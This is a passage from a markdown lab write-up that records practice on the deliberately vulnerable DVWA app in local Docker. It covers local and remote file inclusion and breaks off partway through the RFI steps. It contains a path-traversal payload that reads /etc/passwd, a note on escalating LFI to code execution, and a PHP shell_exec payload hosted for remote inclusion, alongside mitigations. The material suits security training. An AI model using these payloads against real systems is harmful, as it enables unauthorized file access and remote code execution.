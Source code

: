 # 05 — DVWA Hands-on Lessons

> Lab environment: DVWA running in Docker (local). DVWA security level used: Low (for exploitation demonstration).

---

## Summary of practical lessons
This document records my hands-on practice for several web vulnerabilities: LFI, RFI, SQLi, XSS, command injection, and file upload. Each section includes the steps I performed, sample payloads, what to capture as evidence, and defensive takeaways.

---

### A — Local File Inclusion (LFI)
**Goal:** Read local files by abusing an include parameter (e.g., `?page=`).

**Steps I followed**
1. Set DVWA security to *Low*.
2. Open DVWA → Vulnerabilities → File Inclusion.
3. Try basic traversal: `?page=../../../../etc/passwd` (increase `../` depth as needed).
4. If content appears, screenshot the page showing `/etc/passwd` or similar file contents.

**Evidence to capture**
- Screenshot: DVWA File Inclusion page with `/etc/passwd` output visible.

**Notes & escalation**
- LFI becomes RCE via log poisoning or including session/temp files that contain PHP code.
- Mitigation: whitelist include values; do not use user-supplied paths directly in `include()` or `require()`.

---

### B — Remote File Inclusion (RFI)
**Goal:** Make the server include and execute a remote PHP file you host.

**Core requirements**
- The server's PHP must have `allow_url_include = On` (check via `phpinfo()`).
- You must be able to host a reachable HTTP file (e.g., `http://<host>:8000/rfi.php`).

**Steps I performed**
1. Create payload on host (example file `rfi.php`):
   ```php
   <?php echo shell_exec("whoami"); ?>




